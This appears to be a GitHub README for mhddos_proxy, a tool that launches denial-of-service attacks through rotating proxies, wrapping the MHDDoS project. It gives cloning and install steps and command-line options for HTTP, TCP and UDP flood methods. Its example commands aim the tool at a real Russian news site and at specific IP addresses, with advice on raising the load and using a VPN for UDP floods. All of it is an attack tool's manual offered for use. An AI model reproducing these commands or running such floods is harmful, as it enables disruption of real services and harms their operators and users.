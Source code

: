 ## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t, --threads 100      Number of threads per CPU core (default is 100)
      -p, --period 300       How often to update the proxies (default is 300)
      --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 3)

      --rpc 100              How many requests to send on a single proxy connection (default is 100)
      --udp-threads 1        Threads to run per UDP target (default is 1)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             (default is GET, STRESS, BOT, DOWNLOADER)
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).

For TCP targets, attack method is TCP FLOOD  

For UDP targets, attack method is UDP FLOOD.   
**VPN IS REQUIRED FOR UDP**, proxying is not supported.  
Separate parameter `--udp-threads` controls the load, the default is 1, **INCREASE SLOWLY**, be careful

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL  - `https://tvzvezda.ru` or `http://tvzvezda.ru` 
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT  - `tcp://194.54.14.131:4477`
- UDP by IP:PORT  - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 10 minutes)

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

Specific attack method

    python3 runner.py https://tvzvezda.ru --http-methods GET

# TODO

- [ ] Docker image
